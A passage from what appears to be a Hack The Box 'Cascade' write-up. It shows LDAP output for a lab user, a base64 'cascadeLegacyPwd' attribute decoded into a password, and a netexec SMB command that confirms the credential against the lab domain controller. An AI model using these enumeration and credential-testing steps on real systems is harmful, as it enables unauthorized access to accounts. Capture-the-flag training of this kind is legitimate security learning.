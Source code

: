 ```sh
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
[..snip..]
```

Interesting field there at the bottom for `r.thompson` titled `cascadeLegacyPwd`. He's the only user with it.

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

## Initial Access

### Check Credentials

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ netexec smb 10.129.145.225 -u r.thompson -p 'rY4n5eva'
SMB    10.129.145.225  445    CASC-DC1     [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB    10.129.145.225  445    CASC-DC1     [+] cascade.local\r.thompson:rY4n5eva
```
